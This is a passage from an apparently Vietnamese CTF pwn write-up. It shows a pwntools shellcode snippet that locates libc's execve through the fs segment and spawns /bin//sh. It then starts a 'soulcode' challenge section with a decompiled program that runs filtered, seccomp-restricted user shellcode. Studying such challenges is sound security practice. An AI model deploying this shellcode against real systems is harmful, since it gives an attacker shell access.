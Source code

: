 ```cs
sc = asm(f'''
         mov rsp,fs:0x300
         mov rbx,fs:0x0
         add rbx,{libc.sym.execve+ (0x7ffff7d79000-0x7ffff7d76740)}
         movabs rcx, 0x68732f2f6e69622f
         push rcx
         mov rdi,rsp
         call rbx

         ''')
```

ref : [here](https://elijahchia.gitbook.io/ctf-blog/hkcert-ctf-24/shellcode-runner-3-+-revenge-pwn) and [here](https://github.com/tj-oconnor/ctf-writeups/tree/main/nahamcon_ctf/stackless)


## soulcode

- bài này là 1 bài filter các byte shellcode 

dowload [here](/assets/files/soulcode.rar)

### analys

```c
bool main(void)

{
  int iVar1;
  long i;
  undefined8 *puVar2;
  byte bVar3;
  undefined8 shellcode;
  undefined8 local_200;
  undefined8 local_1f8 [62];
  
  bVar3 = 0;
  puts("Before you leave the realm of the dead you must leave a message for posterity!");
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  shellcode = 0;
  local_200 = 0;
  puVar2 = local_1f8;
  for (i = 0x3c; i != 0; i = i + -1) {
    *puVar2 = 0;
    puVar2 = puVar2 + (ulong)bVar3 * -2 + 1;
  }
  *(undefined4 *)puVar2 = 0;
  read_string(&shellcode,500,(undefined4 *)((long)puVar2 + 4));
  filter(&shellcode,4);
  iVar1 = install_syscall_filter();
  if (iVar1 == 0) {
    (*(code *)&shellcode)();
  }
  return iVar1 != 0;
}
```
